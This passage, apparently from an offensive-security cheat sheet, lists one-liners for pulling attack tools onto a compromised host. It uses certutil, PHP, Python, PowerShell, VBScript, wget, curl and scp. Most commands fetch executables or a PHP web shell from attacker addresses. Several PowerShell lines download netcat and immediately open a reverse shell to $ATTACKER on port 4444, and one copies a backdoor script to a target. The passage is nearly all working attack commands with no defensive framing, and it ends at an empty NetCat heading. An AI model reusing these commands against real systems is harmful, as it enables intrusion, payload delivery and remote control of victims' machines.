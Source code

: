 #### CertUtil

```csharp
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

#### PHP

```php
<?php file_put_contents("/var/tmp/shell.php", file_get_contents("http://10.11.0.245/shell.php")); ?>
```

#### Python

```python
python -c "from urllib import urlretrieve; urlretrieve('http://10.11.0.245/nc.exe', 'C:\\Temp\\nc.exe')"
```

#### HTTP: Powershell

```csharp
powershell -Command "& {(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe'); cmd /c nc.exe $ATTACKER 4444 -e cmd.exe" }
powershell -Command "& {(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe'); Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'" }
powershell -Command "(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe')"; Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'"
powershell (New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/file.exe','file.exe');(New-Object -com Shell.Application).ShellExecute('file.exe');

# download using default proxy credentials and launch
powershell -command { $b=New-Object System.Net.WebClient; $b.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; $b.DownloadString("http://$attacker/nc.exe") | Out-File nc.exe; Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'" }
```

#### HTTP: VBScript

Copy and paste contents of [wget.vbs](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/wget-cscript) into a Windows Shell and then:

```text
cscript wget.vbs http://$ATTACKER/file.exe localfile.exe
```

#### HTTP: Linux

```bash
wget http://$ATTACKER/file
curl http://$ATTACKER/file -O
scp ~/file/file.bin user@$TARGET:tmp/backdoor.py
```

#### NetCat
